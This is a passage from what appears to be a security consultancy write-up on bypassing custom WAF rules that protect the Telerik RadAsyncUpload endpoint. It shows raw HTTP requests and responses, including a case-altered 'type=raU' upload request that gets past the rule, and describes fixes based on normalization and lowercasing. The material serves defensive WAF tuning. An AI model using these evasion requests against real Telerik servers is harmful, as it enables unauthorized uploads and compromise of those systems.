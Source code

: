 Response:

```
HTTP/1.1 200 OKCache-Control: privateContent-Type: text/html; charset=utf-8Date: Thu, 07 May 2020 16:11:22 GMTContent-Length: 667Connection: close​{"fileInfo":{"FileName":"RAU_crypto.bypass","ContentType":"text/html","ContentLength":135,"DateJson":"2019-01-02T03:04:05.067Z","Index":0}, "metaData":"[Base64 Metadata]" }
```

It was observed that the custom rules developed for the specific WAF did **not perform normalization by default** on the path and query string parameters and therefore are unable to detect URL encoded characters.

To address this bypass, the client was assisted in finding the WAF functionality that allowed to normalize the query string parameter of the request and detect any URL encoded parameters in the "_type=rau_" parameter.

_"So, all is good now, right?"_

_Not quite..._

**\-** **3rd WAF Rule: the "case" is still open**

A regression test was then performed in order to be sure that the vulnerability was patched. However, although the URL encoding did not lead to a bypass anymore, it was found that the endpoint was **case insentive!**

In fact, by specifying the value "_raU_" within the "_type_" parameter it was still valid as shown in the following request:

```
POST /Telerik.Web.UI.WebResource.axd?type=raU HTTP/1.1Host: victim.comUser-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_st64; rv:75.0) Gecko/20100101 Firefox/75.0Accept: */*Accept-Language: en-US,en;q=0.5Accept-Encoding: gzip, deflateConnection: closeContent-Type: multipart/form-data; boundary=---------------------------62616f37756f2fConnection: closeContent-Length: 2345​-----------------------------62616f37756f2fContent-Disposition: form-data; name="rauPostData"​ATTu5i4R+ViNFY[Encrypted rauPostData Payload in base64]mUFAlzLUg==-----------------------------62616f37756f2fContent-Disposition: form-data; name="file"; filename="blob"Content-Type: application/octet-stream​Test_Test-----------------------------62616f37756f2fContent-Disposition: form-data; name="fileName"​RAU_crypto.bypass-----------------------------62616f37756f2fContent-Disposition: form-data; name="contentType"​text/html-----------------------------62616f37756f2fContent-Disposition: form-data; name="lastModifiedDate"​2019-01-02T03:04:05.067Z-----------------------------62616f37756f2fContent-Disposition: form-data; name="metadata"​{"TotalChunks":1,"ChunkIndex":0,"TotalFileSize":1,"UploadID":"test_12421498329494.txt"}-----------------------------62616f37756f2f--​
```

Response:

```
HTTP/1.1 200 OKCache-Control: privateContent-Type: text/html; charset=utf-8Date: Fri, 08 May 2020 10:25:09 GMTContent-Length: 667Connection: close​{"fileInfo":{"FileName":"RAU_crypto.bypass","ContentType":"text/html","ContentLength":153,"DateJson":"2019-01-02T03:04:05.067Z","Index":0}, "metaData":"[Base64 Metadata]" }
```

To address this new bypass it was necessary to tune the rule _so that it transformed to lower case all the characters within the query string parameters before applying the check on the presence of the "type=rau" parameter_.
